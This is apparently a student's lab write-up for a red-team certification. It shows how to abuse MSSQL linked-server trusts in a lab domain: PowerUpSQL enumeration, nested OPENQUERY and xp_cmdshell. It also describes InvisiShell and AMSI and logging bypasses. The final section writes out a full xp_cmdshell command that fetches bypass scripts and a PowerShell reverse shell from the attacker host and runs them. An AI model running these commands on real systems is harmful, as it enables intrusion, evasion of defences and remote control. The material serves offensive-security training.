CRTE - Certified Red Team Expert
Trust Abuse - MSSQL Servers - Database Links
Trust Abuse in MSSQL Servers is an advanced attack vector that exploits misconfigurations in authentication, delegation, and linked server trust relationships to escalate privileges and move laterally across an environment. MSSQL is often treated as just a database service, but in Active Directory environments, it can act as a bridge between security boundaries, allowing attackers to exploit its features to compromise entire domains.
The process starts with an attacker gaining an initial foothold on an MSSQL server. This access can be obtained through weak credentials, SQL injection, or existing domain-level privileges. Once inside, the real power of the attack comes from leveraging linked servers, authentication delegation, and execution mechanisms to pivot further. Linked servers are often used to facilitate legitimate cross-server queries, but when improperly configured, they allow attackers to execute queries on remote databases with inherited privileges. If the linked server is authenticated with a privileged account, an attacker can abuse this trust to execute commands or retrieve sensitive data from another SQL instance. This lateral movement extends beyond just SQL environments if an MSSQL server has the ability to execute system commands, it can provide a direct path to full system compromise.
A critical aspect of trust abuse comes from how MSSQL handles authentication and delegation. SQL servers can authenticate users through Windows Authentication (Kerberos/NTLM) or SQL Authentication (username/password stored in the database). If an SQL service is running under a domain account that is trusted for delegation, attackers can leverage Kerberos delegation attacks to escalate privileges. Unconstrained delegation allows attackers to extract Kerberos tickets of any user who connects to the SQL server, including domain administrators. Constrained delegation (S4U2Self/S4U2Proxy) provides a way for attackers to impersonate users and access specific services, while Resource-Based Constrained Delegation (RBCD) allows an attacker to modify delegation permissions to impersonate high-privilege accounts.
Another overlooked execution method in MSSQL abuse is SQL Agent Jobs, which attackers can use for persistent execution. If an attacker gains sysadmin privileges on an MSSQL instance, they can schedule malicious jobs that execute payloads at predefined intervals, ensuring long-term persistence even if the original shell is lost. Because SQL Agent Jobs are a legitimate feature, they are often ignored by security monitoring tools.
Once attackers gain execution capabilities inside MSSQL, they often escalate privileges to NT AUTHORITY\SYSTEM. Many MSSQL servers run under LocalSystem, meaning that executing system commands through SQL procedures results in full control over the host. This allows attackers to dump credentials from LSASS, modify registry keys, create administrator accounts, and move laterally within the environment.
Even if direct command execution via xp_cmdshell is disabled, attackers can abuse alternative stored procedures such as sp_OACreate (OLE Automation Procedures), CLR Assemblies, or xp_dirtree (UNC path exploitation) to execute arbitrary commands. These methods bypass traditional restrictions and allow an attacker to maintain access in environments where security controls attempt to restrict direct system interaction.
In multi-forest environments, MSSQL servers can be leveraged for cross-forest trust abuse. If a trust exists between two Active Directory forests, attackers can enumerate and exploit linked servers to pivot between environments. Foreign Security Principals (FSPs) and SIDHistory misconfigurations can allow accounts in one forest to have hidden privileges in another, providing a stealthy way to escalate privileges across domains. Since these permissions do not always appear in standard privileged user lists, attackers rely on extensive ACL enumeration to identify hidden trust relationships.
If an MSSQL server has a trust relationship with a domain controller, it becomes an even more valuable target. Some environments have MSSQL servers running directly on domain controllers, which is a critical security risk. If an attacker compromises an SQL instance on a domain controller, they can access NTDS.dit, the Active Directory database, and extract credentials for every domain user. Even if the SQL server is separate, if it has privileged access to a DC through linked servers, it can serve as a pivot to execute DCSync attacks or dump credentials remotely.
Trust Abuse in MSSQL is not just about compromising individual database servers, it’s about leveraging the interconnected nature of these systems to escalate privileges, evade detection, and persist in an environment. A single compromised SQL server can provide a path to domain-wide compromise if trust relationships, delegation settings, and authentication mechanisms are not properly secured. Before moving to the demonstration, it’s essential to understand these core attack flows, starting from an initial foothold, abusing linked servers, leveraging authentication delegation, executing system commands, extracting credentials, and escalating privileges across forests and domains.
Enumerating MSSQL in Cross-Forest Trusts
Enumerating MSSQL in cross-forest trusts using PowerUpSQL is a critical step in understanding how database trust relationships can be abused for lateral movement and privilege escalation.
When dealing with MSSQL servers in a cross-forest trust scenario, the first objective is to identify accessible SQL instances and determine their authentication methods. PowerUpSQL provides a comprehensive framework for discovering and enumerating SQL servers within an environment. Since cross-forest trusts allow authentication from one forest to another, an attacker who has credentials in one domain can attempt to access MSSQL instances in the trusted domain.
Invisi-Shell
InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software.
Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
These are security features that Microsoft implemented to monitor and log PowerShell activity.
- System-wide transcription logs all PowerShell commands and their output.
- Script block logging records the content of PowerShell scripts.
- AMSI scans scripts for malicious content before they are executed.
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies
System.Management.Automation.dllandSystem.Core.dll. - This is accomplished using a CLR (Common Language Runtime) profiler API.
- A CLR profiler is a DLL loaded by the CLR at runtime to intercept and modify the behavior of these assemblies via the profiling API.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- With administrator privileges: The
RunWithPathAsAdmin.batscript is used. - Without administrator privileges: The
RunWithRegistryNonAdmin.batscript is used. This method creates a CLR profiler and starts a new PowerShell session with disabled logging. - Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to
System.Management.Automation.dllandSystem.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI. - Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type
exitin the new PowerShell session created by InvisiShell. - Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the
C:\ADdirectory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded. - InvisiShell and Binaries: It is noted that binaries like
Rubeus.exemay be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt. - Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.
In summary, InvisiShell is essential for maintaining stealth in the lab environment by allowing the user to execute PowerShell scripts without triggering the enhanced logging and security features of Windows. The tool is used to bypass security controls in PowerShell, specifically designed to circumvent enhanced logging mechanisms and detection by security software.
It’s always good that we do run Invisi-Shell via cmd before we start doing our enumeration and right after script execution, Powershell will be executed. This script should be executed depending on the type of privilege we do have on the machine.
If we are just a simple low level privileged user, then we should run RunWithRegistetyNonAdmin.bat.
If we are a high level privileged user like Administrator for example, then we should run RunWithPathAsAdmin.batRunWithRegistryNonAdmin.bat

To verify whether InvisiShell has successfully bypassed the intended PowerShell defenses (e.g., logging mechanisms, AMSI, or other detection features), you can perform targeted tests to validate its effectiveness, but we will bypass this for now and go straightforward on MSSQL enumeration.
Get-SQLInstanceDomain in PowerUpSQL is useful for discovering MSSQL instances across the domain, including those in a trusted forest if the enumeration is performed with a valid cross-domain account.
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.psd1Get-SQLInstanceDomain

The output above show us one MSSQL instance configured on us.techcorp.local domain, which is our current domain.
Using the command Get-SQLServerInfo, we are able to get detailed info about the MSSQL instance we just found.
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

- ComputerName: The hostname of the SQL Server machine (
us-mssql.us.techcorp.local), which helps identify where the service is running. - Instance: The specific SQL Server instance name (
US-MSSQL), useful when multiple instances run on the same machine. - DomainName: The Active Directory domain to which the SQL Server belongs (
US), indicating its authentication scope. - ServiceProcessID: The process ID (
1552) assigned to the SQL Server process, useful for identifying it in system monitoring tools. - ServiceName: The Windows service running SQL Server (
MSSQLSERVER), which can be targeted for privilege escalation or persistence. - ServiceAccount: The account under which the SQL Server service is running (
US\dbservice), critical for understanding its privileges and potential delegation abuses. - AuthenticationMode: Indicates whether the server supports Windows and/or SQL authentication (
Windows and SQL Server Authentication), which determines attack surfaces for credential-based access. - ForcedEncryption: Whether SQL Server forces encrypted connections (
0means disabled), which affects how traffic can be intercepted. - Clustered: Specifies if the SQL Server is part of a failover cluster (
Nomeans it's a standalone instance). - SQLServerVersionNumber: The full version number of SQL Server (
14.0.1000.169), useful for identifying vulnerabilities. - SQLServerMajorVersion: The major version of SQL Server (
2017), relevant for knowing available features and exploits. - SQLServerEdition: The edition type (
Developer Edition (64-bit)), which impacts licensing and certain security features. - SQLServerServicePack: The service pack level (
RTMmeans it’s the initial release without updates), indicating if it may lack security patches. - OSArchitecture: The architecture of the SQL Server machine (
X64means 64-bit). - OsVersionNumber: The OS version running SQL Server (
SQL), indicating the underlying operating system. - CurrentLogin: The SQL login currently in use (
US\studentuser163), which helps determine privileges and access scope. - IsSysadmin: Whether the current login has sysadmin privileges (
Nomeans limited access). - ActiveSessions: The number of active SQL sessions (
1), useful for monitoring user activity.
Database Trust Links Enumeration
From the enumeration, we can see that our current use (studentuser163) has a Non-Admin access to MSSQL instance US-MSSQL in our domain us.techcorp.local.
Once MSSQL servers are identified, the next step is to check for misconfigured linked servers, as these provide an entry point to execute queries and commands across multiple database servers.
Get-SQLServerLink is specifically designed to enumerate linked servers within an MSSQL environment. It retrieves database trust links, showing which servers are linked and what authentication is used between them. This is crucial because linked servers often retain inherited privileges, meaning that compromising a single SQL instance could provide access to a different, more privileged database in another domain. If the linked server uses Windows Authentication and the current SQL session is running under a high-privileged service account, it could be possible to pivot and execute commands on remote databases across the trust boundary. Let’s now focus on US-MSSQL Database Trust Link enumeration.
Get-SQLServerLink -Instance 'US-MSSQL.us.techcorp.local' -Verbose

- ComputerName: The hostname of the SQL Server where the enumeration is being performed (
US-MSSQL.us.techcorp.local). - Instance: The SQL Server instance name (
US-MSSQL). - DatabaseLinkId: A numerical identifier for each linked server entry (
0for local,1for remote). - DatabaseLinkName: The name or IP address of the linked SQL server. The first entry is local (
US-MSSQL), while the second points to a remote server (192.168.23.25). - DatabaseLinkLocation: Indicates whether the link is local (self-referencing) or remote (connecting to another SQL server).
- Product: Specifies the database type (SQL Server).
- Provider: The provider used to communicate with the linked server (
SQLNCLI, SQL Native Client). - Catalog: This field would contain the default database catalog used for the linked connection but is empty here.
- LocalLogin: The local SQL user account mapped to this linked server, but it’s not explicitly set in this case.
- RemoteLoginName: If the linked server uses a remote login for authentication, it would appear here, but it’s empty.
- is_rpc_out_enabled: Determines whether the linked server allows executing remote stored procedures (
Truefor local,Falsefor remote). If enabled, it could allow command execution across linked servers. - is_data_access_enabled: Defines whether the linked server allows querying remote databases (
Falsefor local,Truefor remote), which means data retrieval from192.168.23.25is possible. - modify_date: The last time the linked server configuration was modified.
Key Information to Pay Attention To
- Identifying Remote Database Links: The presence of a remote linked server (
192.168.23.25) indicates a trust relationship that could be abused for lateral movement. - RPC Out Execution (
is_rpc_out_enabled): IfTrue, the linked server may allow executing remote stored procedures, which can be exploited for remote command execution. - Data Access (
is_data_access_enabled): If enabled, attackers can directly query remote databases, extracting sensitive information. - Authentication & Privileges: The absence of explicit
LocalLoginorRemoteLoginNamecould indicate that the linked server inherits the privileges of the current SQL session, meaning an attacker with high privileges onUS-MSSQLmight automatically get equivalent rights on192.168.23.25. - Timestamps (
modify_date): Reviewing modification dates helps determine if trust relationships were recently changed, which could indicate newly added attack surfaces.
If the linked server is misconfigured and allows query execution or RPC calls, it can be leveraged to move laterally and potentially escalate privileges by pivoting through the MSSQL environment.
This enumeration phase is essential in understanding the scope of trust relationships between SQL servers and how they can be leveraged in a broader attack chain. By focusing on PowerUpSQL’s discovery capabilities and Get-SQLServerLink’s enumeration of database trust links, attackers can map out potential pivot points, privilege escalation opportunities, and cross-forest attack paths.
MSSQL Remote Access (HeidiSQL)
Remotely accessing the MSSQL server US-MSSQL in us.techcorp.local using HeidiSQL requires a straightforward approach. HeidiSQL is a lightweight GUI that supports SQL Server connections and can be used to interact with the target database once valid credentials are available.
To connect, the server’s hostname or IP address is needed along with a valid authentication method. If SQL Authentication is enabled, a username and password must be used. If Windows Authentication is required, a valid domain user account is necessary, and HeidiSQL must be run with those credentials. The default MSSQL port is 1433, but if a different port is used, it must be specified.
Once connected, HeidiSQL provides an interactive way to enumerate databases, tables, stored procedures, and linked servers without needing to use a command-line SQL shell. This allows for easier navigation of the database structure and helps in identifying privileged accounts, misconfigurations, and potential exploitation points.
If the target SQL server is behind a firewall or restricted to internal access, tunneling may be required. This can be done through SSH tunnels, VPN access, or SOCKS proxies to route HeidiSQL traffic through an accessible machine in the internal network. If MSSQL authentication trusts linked servers, credentials obtained from another SQL server may work to authenticate directly to US-MSSQL without needing separate login credentials.
With remote access established, the next phase involves exploring privileges, database contents, linked servers, and execution capabilities to determine the best path for lateral movement or privilege escalation.
We already know that our current user studentuser163 has access to US-MSSQL, so let’s configure HeidiSQL to access it. Make sure that we are using the following configurations on the screenshot.
Windows Authentication is needed for this access on US-MSSQL because studentuser163 is valid domain user.


Once we are logged in, let’s sue openquery to make the queries we want to the database s it’s possible to see above.
Select * from master..sysservers

The screenshot from HeidiSQL shows the results of querying master..sysservers, which lists configured linked servers on the MSSQL instance US-MSSQL in us.techcorp.local.
The table confirms two SQL servers:
- US-MSSQL (local server)
- 192.168.23.25 (remote linked server)
Key findings for the remote linked server (192.168.23.25).
- The server is linked but marked as "not remote" (
isremote=False), meaning it might be treated as a local resource when executing queries, potentially allowing privilege escalation if misconfigured. - RPC is disabled (
rpcout=False), which means executing stored procedures remotely may not be possible unless reconfigured or bypassed through other methods. - Data access is enabled (
dataaccess=True), confirming that the linked server allows querying databases on192.168.23.25, meaning an attacker can extract data from it. - User remote connection is enabled (
useremoteconn=True), allowing remote queries, reinforcing that cross-server interactions are possible. - The linked server is identified as a SQL Server (
srvproduct=SQL Server), confirming it runs a standard MSSQL service. - No specific remote login credentials are shown, meaning it could be inheriting the authentication context of the current SQL session, potentially allowing higher privileges if the session is running under a privileged account.
This enumeration confirms that 192.168.23.25 can be accessed via linked queries, and with data access enabled, it might be possible to extract information or pivot further into the environment.
The lack of RPC (rpcout=False) could limit some attack vectors, but if the current session has high privileges, this server could still be exploited for data exfiltration or lateral movement.
Using nested OPENQUERY within another OPENQUERY is a technique that allows executing queries across multiple linked servers by layering one OPENQUERY inside another. This is useful when a linked server (192.168.23.25) has a further linked server connection, enabling indirect query execution beyond the immediate SQL instance.
In the context of 192.168.23.25, if it is linked to another SQL server, an attacker can chain linked queries by embedding an OPENQUERY inside another OPENQUERY. This technique allows executing SQL commands on a third server that is only accessible from 192.168.23.25, effectively bypassing direct access restrictions.
This approach is valuable when direct access to a deeper SQL server is blocked, but it can be reached through an intermediary linked server. By nesting queries, an attacker can pivot further within the SQL infrastructure, moving laterally across multiple trust relationships without needing explicit access to all servers in the chain.
Select FROM openquery("192.168.23.25",'Select FROM master..sysservers')

Paying attention on numerical identifier for each linked server entry (0 for local, 1 for remote), DB-SQLPROD is the local (192.168.23.25) and DB-SQLSRV is our another remote database trust link.
So let’s make another OpenQuery from US-MSSQL → DB-SQLPROD (192.168.23.25) → DB-SQLSRV.
When nesting OPENQUERY within another OPENQUERY, special attention must be given to the handling of single quotes ('), as SQL Server requires escaping them properly.
The inner OPENQUERY (targeting "DB-SQLSRV") contains its own SQL statement, which is wrapped in single quotes ('). However, since this query itself is inside another OPENQUERY (targeting "192.168.23.25"), the single quotes inside the inner query need to be escaped by doubling them ('') to ensure they are correctly parsed.
Failure to escape these properly will result in syntax errors, causing the query to fail. When nesting OPENQUERY statements, always verify that each layer of the query correctly escapes its inner single quotes, otherwise the execution will break due to misinterpreted SQL syntax.
SELECT FROM OPENQUERY ("192.168.23.25",'Select From openquery ("DB-SQLSRV", ''SELECT * FROM master..sysservers'')')

As we can see above, this time, when making the database trust links enumeration using DB-SQLSRV we can see that output now is 0, so that one does not have database trusted links with another database. This way we can move on enumerating DB-SQLSRV itself.
We can use @@version command to enumerate DB-SQLSRV version.
SELECT FROM OPENQUERY ("192.168.23.25",'Select From openquery ("DB-SQLSRV", ''SELECT @@version'')')

We could carry on here manually as I just demonstrated using HeidiSQL.
MSSQL Remote Access (PowerUpSQL)
Get-SQLServerLinkCrawl from PowerUpSQL is a powerful function used to automatically crawl database trust links by recursively enumerating linked servers. Instead of manually querying each linked server, this command systematically follows trust relationships, identifying all accessible SQL instances that can be reached from the initial foothold.
This automation is useful for mapping out multi-hop trust paths, where an attacker can pivot through chained linked servers to access deeper parts of the network. If a linked server inherits authentication from the current session, Get-SQLServerLinkCrawl will attempt to use those credentials to enumerate further, identifying new SQL targets and potential privilege escalation opportunities.
This technique is especially valuable when dealing with large or complex environments where manually tracking linked servers would be inefficient. By automating the discovery process, an we can quickly build a trust relationship map, helping determine which linked servers allow execution, data access, or further lateral movement opportunities.
Get-SQLServerLinkCrawl -Instance 'US-MSSQL' -Version


Our PowerUpSQL enumeration using Get-SQLServerLinkCrawl revealed a multi-hop trust path between MSSQL servers, confirming linked servers and privilege inheritance across the environment.
- The enumeration started at US-MSSQL, where the current user (studentuser163) has limited privileges (
IsSysAdmin: 0). The only linked server found here is 192.168.23.25. - Upon crawling 192.168.23.25, we found another linked SQL server: DB-SQLSRV. The user here (
dbuser) has sysadmin privileges (IsSysAdmin: 1), meaning full control over this instance. - Finally, the crawl followed the trust path to DB-SQLSRV, where the "sa" account was identified as having sysadmin privileges. No further linked servers were discovered beyond this point.
Key Takeaways from the Enumeration:
- There is a clear attack path from US-MSSQL → 192.168.23.25 → DB-SQLSRV, with increasing privileges along the way.
- DB-SQLSRV is the most valuable target, as it is linked through
192.168.23.25, and thesaaccount has sysadmin privileges, allowing full control. - Privilege escalation is possible by leveraging the dbuser account on 192.168.23.25, which already has sysadmin access and could potentially be used to pivot to DB-SQLSRV.
- Lateral movement is viable using nested OPENQUERY or executing commands via linked server queries if
rpcoutis enabled.
The enumeration confirms that DB-SQLSRV is the final target with full control, and the next step is to determine if remote command execution is possible through linked server abuse.
This confirms exactly what was found during the manual enumeration using HeidiSQL.
If xp_cmdshell is enabled, or if rpcout is set to true, allowing us to enable xp_cmdshell, it becomes possible to execute system commands on any SQL server within the linked database network. This means that if a server in the trust chain has xp_cmdshell already enabled, executing commands directly on that system is straightforward. However, if it is disabled but rpcout is enabled, an attacker can first enable xp_cmdshell remotely and then execute commands on that target.
The ability to execute commands across linked servers significantly expands the attack surface. Instead of being limited to the initial SQL instance, an attacker can move laterally by executing commands on other linked servers, leveraging inherited privileges. If a low-privileged SQL user on one server has access to a linked server where a more privileged account is in use, enabling xp_cmdshell there could lead to privilege escalation, potentially reaching NT AUTHORITY\SYSTEM or even domain administrator access if the SQL service runs under a privileged domain account.
This technique is extremely powerful when combined with trust abuses in multi-forest environments. If the linked server exists in another trusted domain or forest, executing commands remotely could allow pivoting into isolated or higher-privileged environments that wouldn’t be accessible otherwise. The key condition is that either xp_cmdshell is already enabled, or rpcout allows an attacker to enable it remotely, making database trust relationships a critical vector for exploitation.
Let’s now enumerate if xp_cmdshell is enabled on DB-SQLPROD(192.168.23.25) trying to execute whoami which is an OS command on xp_cmdshell.
Get-SQLServerLinkCrawl -instance 'US-MSSQL' -Query 'Exec master..xp_cmdshell "whoami"'

Or we could also use the -QueryTarget flag to specify what instance we want to make this query to.
Get-SQLServerLinkCrawl -instance 'US-MSSQL' -Query 'Exec master..xp_cmdshell "whoami"' -QueryTarget 'DB-SQLPROD'

As we can see above enumeration, we are able to confirm that xp_cmdshell is enabled on DB-SQLPROD(192.168.23.25) by checking the information on CustomQuery property of our ouptput above.
MSSQL Reverse Shell via xp_cmdShell
The enumeration confirmed that xp_cmdshell is enabled on DB-SQLSRV (192.168.23.25), allowing us to execute OS-level commands directly from SQL Server. The whoami command returned nt service\mssqlserver, indicating that the SQL service is running with local service privileges.
With xp_cmdshell enabled, we can now leverage this misconfiguration to establish a reverse shell from DB-SQLSRV back to our attack machine. This will give us direct command-line access, bypassing SQL restrictions and allowing us to move further into the system.
Edit Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp.ps1 is a PowerShell script designed to create a reverse shell connection from a compromised machine to an attacker's system. It establishes an interactive PowerShell session over TCP, allowing remote command execution once the connection is established.
To ensure the reverse shell executes immediately when the script is imported, the file was modified by appending the command: reverse -Reverse -IPAddress 192.168.100.163 -Port 443
This forces the script to initiate a reverse connection to 192.168.100.163 on port 443 (our attacking machine) as soon as it is loaded into memory. Instead of requiring manual execution after importing, the payload runs automatically, streamlining the attack process.
Now, we can host the script on an HTTP server and use xp_cmdshell on DB-SQLSRV to download and execute it, establishing a PowerShell reverse shell back to our listener.

Hosting files local files
We should be hosting all the files we will be requesting further more in our attacking host. This will be requested by our Target DB-SQLSRV.

Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.

Listening on port 443 for Reverse Shell
Let’s use PowerCat.ps1 so we can start listening on port 443 on our attacking machine, a PowerShell-based networking tool similar to Netcat.
Once the Invoke-PowerShellTcp.ps1 script is executed on DB-SQLSRV, it will initiate a reverse connection to this listener, providing an interactive PowerShell session on the compromised machine.

Now, let's proceed with getting a reverse shell using xp_cmdshell.
Get-SQLServerLinkCrawl -instance 'US-MSSQL' -Query 'Exec master..xp_cmdshell ''Powershell -c "IEX(IWR http://192.168.100.163/sbloggingbypass.txt -UseBasicParsing); IEX(IWR http://192.168.100.163/amsibypass.txt -UseBasicParsing); IEX(IWR http://192.168.100.163/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"'''

The command imports and executes sbloggingbypass.txt and amsibypass.txt before loading Invoke-PowerShellTcpEx.ps1 into memory. These first two files are used to disable security mechanisms that could detect and block the execution of Invoke-PowerShellTcpEx.ps1.
sbloggingbypass.txt- This script disables Script Block Logging, a Windows security feature that logs executed PowerShell commands and scripts.
- By bypassing this, the attack becomes less detectable in event logs, reducing forensic visibility.
amsibypass.txt- This script disables or evades AMSI (Antimalware Scan Interface), which is responsible for scanning PowerShell scripts before execution.
- Without this, AMSI could detect Invoke-PowerShellTcpEx.ps1 and prevent it from running.
Invoke-PowerShellTcpEx.ps1
By executing these scripts in sequence, the command ensures that defensive mechanisms are neutralized first, making the final reverse shell execution more stealthy and harder to detect.
NOTE: Once we execute our command to get the reverse shell we should go to the other CMD running our PowerCat.ps1 and hit at ENTER at least twice.

As we can see above we were able to get reverse shell on DB-SQLPROD(192.168.23.25).
Since the linked server from DB-SQLProd to DB-SQLSrv is configured to use the sa account, it inherits sysadmin privileges. This means that any command executed on DB-SQLProd through the linked server will run with full administrative rights on DB-SQLSrv.
